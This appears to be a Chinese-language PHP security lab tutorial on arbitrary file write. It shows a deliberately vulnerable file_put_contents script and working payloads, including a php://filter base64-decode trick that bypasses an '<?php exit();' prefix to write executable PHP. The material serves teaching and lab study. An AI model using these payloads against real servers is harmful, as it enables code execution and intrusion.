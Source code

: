 任意文件写入： 

```http
http://127.0.0.1:8081/www.phpsec.com/page/file_put_contents1.php?filename=phpinfo.php&content=%3C?php%20phpinfo();
```

<img src=".\图片\Snipaste_2023-04-08_23-40-34.png" alt="Snipaste_2023-04-08_23-40-34" style="zoom:80%;" />

#### 文件写入技巧

```php
//file_put_contents2.php
<?php
highlight_file(__FILE__);
$filename=$_GET['filename'];
if(isset($filename)){
    $content=$_GET['content'];
    file_put_contents($filename,'<?php exit();'.$content);

}
```

**可以使用base64和rot13进行绕过写入文件：**

base64解码的时候是4字节->3字节，对于不可识别的字符会跳过，对于`<?php exit();`中，可以识别的只有`phpexit`，一共 7个字节，因此**在前面加个一个字节**，然后再加上 base64 加密的结果就可以了。

```http
filename=php://filter/convert.base64-decode/resource=zf1yolo.php&content=zPD9waHAgcGhwaW5mbygpOw==
```

```
PD9waHAgcGhwaW5mbygpOw==                 // base64解码后为<?php phpinfo();
```

成功写入：

<img src=".\图片\Snipaste_2023-04-09_03-29-43.png" alt="Snipaste_2023-04-09_03-29-43" style="zoom:80%;" />
